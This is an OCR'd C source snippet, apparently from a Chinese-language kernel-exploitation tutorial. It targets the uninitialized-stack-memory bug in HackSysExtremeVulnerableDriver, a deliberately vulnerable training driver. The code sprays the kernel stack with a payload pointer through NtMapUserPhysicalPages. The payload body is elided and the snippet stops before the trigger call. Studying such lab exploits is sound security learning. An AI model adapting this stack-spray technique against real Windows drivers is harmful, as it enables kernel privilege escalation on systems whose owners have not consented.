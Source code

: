 ```
#include #include HANDLE hDevice = NULL;
typedef NTSTATUS(WINAPI* My_NtMapUserPhysicalPages)(
    IN PVOID          VirtualAddress,
    IN ULONG_PTR      NumberOfPages,
    IN OUT PULONG_PTR UserPfnArray);
#define HEVD_IOCTL_UNINITIALIZED_MEMORY_STACK CTL_CODE(FILE_DEVICE_UNKNOWN, 0x80B, METHOD_NEITHER, FILE_ANY_ACCESS)
void payload()
{
    ..
}
int main()
 
{
 
    hDevice = CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver", GENERIC_READ | GENERIC_WRITE,
        NULL,
        NULL,
        OPEN_EXISTING,
        NULL,
        NULL
    );
    if (hDevice == INVALID_HANDLE_VALUE || hDevice == NULL)
    {
        printf("[-]failed to get device handle \n");
        return FALSE;
 
    }
    printf("[+]success to get device  handle\n");
 
    if (hDevice) {
 
        DWORD bReturn = 0;
        char buf[4] = { 0 };
        *(PDWORD32)(buf) = 0x12345678;
 
        //栈喷射
 
        My_NtMapUserPhysicalPages NtMapUserPhysicalPages = (My_NtMapUserPhysicalPages)GetProcAddress(
            GetModuleHandle(L"ntdll"),
            "NtMapUserPhysicalPages");
 
        if (NtMapUserPhysicalPages == NULL)
        {
            printf("[+]Failed to get MapUserPhysicalPages\n");
            return;
        }
 
        PDWORD KernelStackSpray = (PDWORD)malloc(4096);
        memset(KernelStackSpray, 0x41, 4096);
 
        printf("[+]KernelStackSpray: 0x%p\n", KernelStackSpray);
 
        for (int i = 0; i < 1024; i++)
        {
            *(PDWORD)(KernelStackSpray + i) = (DWORD)&payload;
        }
 
        NtMapUserPhysicalPages(NULL, 1024, KernelStackSpray);
 
        //触发漏洞，执行payload
```